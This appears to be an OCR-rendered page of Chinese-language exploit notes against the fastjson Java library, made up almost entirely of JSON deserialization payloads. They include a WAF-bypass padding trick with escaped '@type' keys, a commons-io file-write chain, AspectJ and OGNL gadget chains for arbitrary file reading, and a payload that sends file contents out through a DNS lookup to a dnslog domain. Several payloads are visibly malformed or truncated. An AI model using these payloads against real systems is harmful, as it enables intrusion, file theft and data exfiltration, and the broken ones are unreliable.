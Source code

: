 

大量字符绕过 WAF
```json
[11111111111111111111111111111111111,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"... ]]]]]
```

各种特性
```json
,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.lang.AutoClosea ble"
```

文件写，结合 commons-io 代码（stream 里面写 68 的 payload）

```json
{"x":[{"@type":"java.lang.Exception","@type":"ognl.OgnlException",},{"@type":"java.lang.Class","val":{ "@type":"com.alibaba.fastjson.JSONObject",{  "@type":"java.lang.String"  "@type":"ognl.OgnlException",  "_evaluation":""}},{   "@type": "ognl.Evaluation",   "node": {       "@type": "ognl.ASTMethod",       "p": {           "@type": "ognl.OgnlParser",           "stream":
    }
}}]}
```



aspectj + ognl 任意文件读取 + DNSLOG 回显
打入白名单

```json
[{
   "@type":"java.lang.Exception",
   "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
},
   {
      "@type":"java.lang.Class",
      "val":{
         "@type":"java.lang.String"{
      "@type":"java.util.Locale",
      "val":{
         "@type":"com.alibaba.fastjson.JSONObject",{
      "@type":"java.lang.String"
      "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
      "newAnnotationProcessorUnits":[{}]
   }
}
},
   {
      "x":{
         "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
         "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
         "fileName":"aaa"
      }
   }]
```
aspectj + ognl 文件读取加 DNSLOG 回显
```json
{"a":{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
"fileName":"/Users/su18/Downloads/1.txt"},"b":
{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String"{"$ref":"$"},"country":"aw.su18.dnslog.pw"}}}}}
```
